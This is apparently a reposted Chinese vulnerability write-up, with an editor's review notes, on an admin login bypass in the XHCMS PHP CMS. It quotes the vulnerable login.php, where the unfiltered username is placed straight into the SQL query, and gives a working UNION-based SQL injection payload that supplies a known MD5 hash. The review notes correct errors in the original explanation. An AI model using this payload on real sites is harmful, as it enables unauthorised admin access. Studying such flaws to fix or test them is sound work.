



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：unfilteredusername;manage8columnschema; noexistingrowforprefix1;legacymysqlPHP

- **结论使用边界（1）**：密码字段应输入明文1，文字说输入md5加密1与代码md5(password)再次hash矛盾。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：UNION构造的是查询结果伪行，不是数据库添加新行；密码MD5对比并未单独失效，关键攻击者控制比对hash。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（3）**：完整登录代码与schema例支持机制，但后续仅userCookie权限校验未展示不可扩推。抓包中的会话不能视为未认证访问证明；可识别的真实会话值按中段星号遮罩处理，默认演示值和攻击语法保留。需重新取得授权测试会话，不能复用文中值。

- **事实待核（4）**：版本/修复缺失，有xz7629源，产品标题过泛宜补熊海。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 后台万能密码登录

#### 漏洞详情： ####
漏洞位置：admin/files/login.php

    <?php 
    ob_start();
    require '../inc/conn.php';
    $login=$_POST['login'];
    $user=$_POST['user'];
    $password=$_POST['password'];
    $checkbox=$_POST['checkbox'];
    
    if ($login<>""){
    $query = "SELECT * FROM manage WHERE user='$user'";
    $result = mysql_query($query) or die('SQL语句有误：'.mysql_error());
    $users = mysql_fetch_array($result);
    
    if (!mysql_num_rows($result)) {  
    echo "";
    exit;
    }else{
    $passwords=$users['password'];
    if(md5($password)<>$passwords){
    echo "";
    exit;   
    }
    //写入登录信息并记住30天
    if ($checkbox==1){
    setcookie('user',$user,time()+3600*24*30,'/');
    }else{
    setcookie('user',$user,0,'/');
    }
    echo "";
    exit;
    }
    exit;
    ob_end_flush();
    }
    ?>
万能密码登录有两个点：

1.user未经过过滤直接拼接进入数据库查询

2.password的md5对比可绕过

payload:

    user:1' union select 1,2,'test','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#
    password:1
    
    此处md5(1)=c4ca4238a0b923820dcc509a6f75849b

我们进入后台，在账号一栏中填入payload，密码输入mad5加密的1即可成功登录。

漏洞分析

我们登录我们的mysql数据库，查询xhcms库下的manage表

我们使用联合查询的方法，发现结果在数据库下添加一行新的参数，而添加的值我们是可控的。

所以我们的payload就是通过传入新的md5加密后的password，从而达到绕过验证，直接登录的目的。

### 参考链接 ###
https://xz.aliyun.com/t/7629

---

> 来源：白阁文库 BaizeSec/bylibrary
